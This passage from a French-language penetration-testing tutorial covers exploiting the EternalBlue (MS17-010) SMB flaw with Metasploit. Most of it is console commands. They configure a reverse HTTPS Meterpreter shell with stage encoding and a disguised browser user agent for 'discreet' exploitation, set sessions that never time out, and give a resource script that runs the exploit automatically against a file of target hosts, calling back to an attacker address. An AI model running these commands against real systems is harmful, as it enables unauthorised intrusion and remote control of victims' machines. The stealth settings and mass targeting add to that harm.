 ```
# Configuration pour une exploitation discrète
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 443
msf6 exploit(windows/smb/ms17_010_eternalblue) > set EnableStageEncoding true
msf6 exploit(windows/smb/ms17_010_eternalblue) > set StageEncoder x64/xor
msf6 exploit(windows/smb/ms17_010_eternalblue) > set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
msf6 exploit(windows/smb/ms17_010_eternalblue) > set SessionCommunicationTimeout 0
msf6 exploit(windows/smb/ms17_010_eternalblue) > set SessionExpirationTimeout 0
```

### Gestion des échecs

- Analysez les raisons des échecs d'exploitation
- Ajustez les options et réessayez avec des configurations différentes
- Essayez des exploits alternatifs pour la même vulnérabilité
- Documentez les tentatives infructueuses pour éviter de les répéter

```
# Activation du mode verbeux pour le débogage
msf6 exploit(windows/smb/ms17_010_eternalblue) > set VERBOSE true

# Tentative avec des options alternatives
msf6 exploit(windows/smb/ms17_010_eternalblue) > set GroomAllocations 16
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

## Automatisation de l'exploitation

### Création d'un script d'exploitation automatisé

Créez un fichier `auto_exploit.rc` dans votre répertoire de travail :

```
# Contenu du fichier auto_exploit.rc
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS file:/home/kali/pentest/targets.txt
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
set VERBOSE false
check
exploit -z
```

Utilisation du script :

```
msf6 > resource auto_exploit.rc
```

### Exploitation automatisée avec AutoSploit
